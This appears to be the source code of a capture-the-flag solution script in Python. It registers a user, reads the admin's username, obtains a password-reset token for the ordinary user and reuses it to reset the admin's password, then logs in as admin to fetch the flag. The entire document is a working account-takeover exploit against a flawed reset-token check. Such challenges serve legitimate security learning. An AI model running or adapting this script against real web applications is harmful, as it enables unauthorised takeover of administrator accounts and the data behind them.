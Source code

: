 ```python

# Register the user
print('Registration of user {0} with the password {1}'.format(user_username, user_password))
r = requests.post(BASE_URL + "/register",data=user_credentials)
soup = BeautifulSoup(r.content, 'html.parser')
print(soup.find("p", {"class": "error"}).text)

# Login as the User and get the admin username
print('Log in user {0}'.format(user_username))
r = requests.post(BASE_URL + "/login",data=user_credentials)
soup = BeautifulSoup(r.content, 'html.parser')
print(soup.find('div', {"class": "container"}).find("h1").text)
print("Get the admin username once logged in as user {0}".format(user_username))
admin_username = soup.find(id = 'admin_data').text
print("Admin username: {0}".format(admin_username))

# Log out User
print("Log out user {0}".format(user_username))
r = requests.get(BASE_URL + "/logout")
soup = BeautifulSoup(r.content, 'html.parser')
print(soup.find("p", {"class": "error"}).text)

# Get user reset token
print('Get Reset Token for user {0}'.format(user_username))
r = requests.post(BASE_URL + "/reset_password",data={'username':user_username})
soup = BeautifulSoup(r.content, 'html.parser')
user_reset_token = soup.find("div", {"class": "reset-token-info"}).find('p').text.split(": ")[1]
print("Reset Token for user {0}: {1}".format(user_username, user_reset_token))

# Change the admin password using the reset token of user
print('Reset password for user: {0} with user reset token {1}'.format(admin_username, user_reset_token))
forgot_password_payload = {'username':admin_username, 'reset_token': user_reset_token, 'new_password': admin_password, "confirm_password": admin_password}
r = requests.post(BASE_URL + "/forgot_password?token=" + user_reset_token,data=forgot_password_payload)
soup = BeautifulSoup(r.content, 'html.parser')
print("{0} for {1}".format(soup.find("p", {"class": "error"}).text.split('.')[0], admin_username))

## Login as admin and get the flag
payload = {'username':admin_username, 'password':admin_password}
with requests.Session() as session:
    print("Log in as admin")
    post = session.post(BASE_URL + "/login", data=payload)
    soup = BeautifulSoup(post.content, 'html.parser')
    print(soup.find('div', {"class": "container"}).find("h1").text)
    print("Go to ben10 image and get the flag")
    r = session.get(BASE_URL + "/image/ben10")
    soup = BeautifulSoup(r.content, 'html.parser')
    print(soup.find("p", {"class": "error"}).text)
```
